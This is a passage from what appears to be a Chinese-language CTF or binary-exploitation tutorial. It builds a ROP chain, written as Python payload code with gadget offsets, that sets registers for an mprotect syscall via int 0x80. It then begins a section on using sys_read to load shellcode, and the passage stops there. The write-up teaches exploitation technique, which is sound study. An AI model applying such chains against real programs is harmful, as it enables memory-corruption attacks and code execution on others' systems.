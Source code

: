 实现 `ecx=0x40` 的思想同上即可。所需的gadget信息如下：

[![](https://p5.ssl.qhimg.com/t01c8d7a9c9b0416fbd.png)](https://p5.ssl.qhimg.com/t01c8d7a9c9b0416fbd.png)

[![](https://p0.ssl.qhimg.com/t01e1483e07c869da9a.png)](https://p0.ssl.qhimg.com/t01e1483e07c869da9a.png)

实现 `ecx=0x40` 的payload布局如下：

```
payload1 += pack(0x0000a49d)# pop ecx; pop ebx; ret
payload1 += p32(0xffffffff) # ecx
payload1 += p32(0x80ca001)  # 0x804a000+1 -&gt; ebx

payload1 += pack(0x000806db) #inc ecx; ret
payload1 += pack(0x000806db) 
payload1 += pack(0x0004fd5a) #add ecx, ecx; ret
payload1 += pack(0x0004fd5a)
payload1 += pack(0x0004fd5a)
payload1 += pack(0x0004fd5a)
payload1 += pack(0x0004fd5a)
payload1 += pack(0x0004fd5a)
```

为实现`ebx = 0x80ca000`的操作，上述gadget已完成 **0x80ca001 pop -&gt; ebx** ,只需再执行一次下面的gadget即可：

[![](https://p3.ssl.qhimg.com/t01cf549f5199c86830.png)](https://p3.ssl.qhimg.com/t01cf549f5199c86830.png)

```
payload1 += pack(0x00007871) #dec ebx; ret
```

实现 `eax=0x7d` 同样可利用 `pop ; inc ; dec` 组合操作实现

```
payload1 += pack(0x000601d6) #pop eax; ret
payload1 += p32(0xffffffff)
payload1 += pack(0x0002321e) #add eax, ecx; ret
payload1 += pack(0x0002321e) 
payload1 += pack(0x000600c6) #dec eax; ret
payload1 += pack(0x000600c6)
```

至此，通过 `int 0x80` 即可实现 **sys_mprotect** 操作。

### <a class="reference-link" name="0x02%20sys_read%20%E5%AE%9E%E7%8E%B0%E8%AF%BB%E5%8F%96%20shellcode"></a>0x02 sys_read 实现读取 shellcode

整体流程同上，首先查看 **sys_read** 信息，

[![](https://p0.ssl.qhimg.com/t01d95d58b14bc53289.png)](https://p0.ssl.qhimg.com/t01d95d58b14bc53289.png)

由此，我们要布局的 payload 应完成如下的功能
